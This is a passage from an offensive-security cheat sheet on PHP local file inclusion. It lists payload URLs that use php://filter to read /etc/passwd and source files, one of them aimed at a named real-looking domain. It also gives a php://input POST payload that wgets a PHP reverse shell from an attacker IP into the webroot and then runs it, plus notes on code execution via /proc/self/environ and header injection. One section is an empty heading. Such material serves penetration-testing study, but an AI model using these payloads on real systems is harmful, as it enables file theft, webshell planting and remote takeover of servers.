 php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. This is useful with all-in-one file functions such as readfile(), file(), and file_get_contents() where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.

The output is encoded using base64, so you’ll need to decode the output.

```none
http://IP/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

or

We could use php filter to read the source code of a PHP File

```none
http://xqi.cc/index.php?m=php://filter/read=convert.base64-encode/resource=index.php
```

More information can be found at [Using PHP for file inclusion](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

#### PHP input:// stream

php://input allows you to read raw POST data. It is a less memory intensive alternative to $HTTP_RAW_POST_DATA and does not need any special php.ini directives. php://input is not available with enctype=”multipart/form-data”.

Send your payload in the POST request using curl, burp.

Example:

```none
http://IP/fileincl/example1.php?page=php://input
```

Post Data payload:

```none
<? system('wget http://IP/php-reverse-shell.php -O /var/www/shell.php');?>
```

After uploading execute the reverse shell at

```none
http://IP/shell.php
```

#### data://text/plain;base64,command

#### /proc/self/environ

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

#### /proc/self/fd

If it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.
